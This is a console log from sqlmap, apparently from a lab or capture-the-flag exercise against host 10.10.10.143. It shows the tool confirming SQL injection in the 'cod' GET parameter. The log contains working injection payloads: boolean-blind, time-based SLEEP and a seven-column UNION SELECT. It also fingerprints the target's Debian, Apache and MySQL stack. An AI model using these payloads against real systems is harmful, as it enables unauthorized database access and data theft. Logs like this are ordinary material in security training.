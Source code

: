     [15:03:25] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b4) Gecko/20090423 Firefox/3.5b4 GTB5' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:03:25] [INFO] testing connection to the target URL
    [15:03:25] [INFO] checking if the target is protected by some kind of WAF/IPS
    [15:03:25] [INFO] testing if the target URL content is stable
    [15:03:26] [INFO] target URL content is stable
    [15:03:26] [INFO] testing if GET parameter 'cod' is dynamic
    [15:03:26] [INFO] GET parameter 'cod' appears to be dynamic
    [15:03:26] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
    [15:03:26] [INFO] testing for SQL injection on GET parameter 'cod'
    [15:03:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [15:03:27] [INFO] GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="of")
    [15:03:28] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    ...[snip]...
    [15:03:40] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
    [15:03:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [15:03:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [15:03:40] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [15:03:40] [INFO] target URL appears to have 7 columns in query
    [15:03:41] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)

        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:03:41] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:03:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
